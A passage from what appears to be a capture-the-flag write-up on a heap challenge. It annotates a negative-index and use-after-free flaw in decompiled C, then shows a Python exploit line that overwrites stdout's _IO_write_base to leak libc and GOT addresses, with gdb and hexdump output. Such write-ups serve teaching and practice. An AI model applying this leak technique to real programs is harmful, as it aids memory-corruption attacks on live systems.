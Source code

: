 ```c
    if (local_18 < local_14) {                          <--- Not checking for negative index values
      free(*(void **)(orders + (long)local_18 * 8));    <--- Not clearing the pointer after free
    }
    else {
      puts("Order doesn\'t exist!!!");
      fflush(stdout);
    }
```
## Solution:

In the local environment, we can leak the `libc` address as shown below by rewriting `_IO_write_base` to `0x602010`, but this was not possible in the server environment.

```python
Edit(-12, p32(0xfbad3a87)+"\x01"*0x1c+p64(0x602010))
```

```
gdb-peda$ p _IO_2_1_stdout_
$1 = {
  file = {
    _flags = 0xfbad2a84, 
    _IO_read_ptr = 0x603260, 
    _IO_read_end = 0x603260, 
    _IO_read_base = 0x603260, 
    _IO_write_base = 0x603260,  <-　Rewriting this value
    _IO_write_ptr = 0x603260, 
    _IO_write_end = 0x603260, 
    _IO_buf_base = 0x603260, 
    _IO_buf_end = 0x603660, 
```

An example of outputting the `GOT` area in the local environment. I don't know the cause, but the server environment doesn't work.
```
    00000000  73 6f 20 79  6f 75 20 77  61 6e 74 65  64 20 87 3a  │so y│ou w│ante│d ·:│
    00000010  ad fb 01 01  01 01 01 01  01 01 01 01  01 01 01 01  │····│····│····│····│
    00000020  01 01 01 01  01 01 01 01  01 01 01 01  01 01 10 20  │····│····│····│··· │
    00000030  60 f0 a8 de  f7 ff 7f 00  00 c6 06 40  00 00 00 00  │`···│····│···@│····│
    00000040  00 00 82 a9  f7 ff 7f 00  00 70 29 a6  f7 ff 7f 00  │····│····│·p)·│····│
    00000050  00 40 6e a4  f7 ff 7f 00  00 10 0e b7  f7 ff 7f 00  │·@n·│····│····│····│
    00000060  00 d0 0a a6  f7 ff 7f 00  00 a0 9e a6  f7 ff 7f 00  │····│····│····│····│
    00000070  00 36 07 40  00 00 00 00  00 90 07 a6  f7 ff 7f 00  │·6·@│····│····│····│
    00000080  00 70 de a5  f7 ff 7f 00  00 66 07 40  00 00 00 00  │·p··│····│·f·@│····│
    00000090  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    000000a0  00 60 e7 dc  f7 ff 7f 00  00 00 00 00  00 00 00 00  │·`··│····│····│····│
    000000b0  00 00 da dc  f7 ff 7f 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    000000c0  00 87 3a ad  fb 01 01 01  01 01 01 01  01 01 01 01  │··:·│····│····│····│
    000000d0  01 01 01 01  01 01 01 01  01 01 01 01  01 01 01 01  │····│····│····│····│
    000000e0  01 10 20 60  00 00 00 00  00 0a 00 00  00 00 00 00  │·· `│····│····│····│
    000000f0  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
```
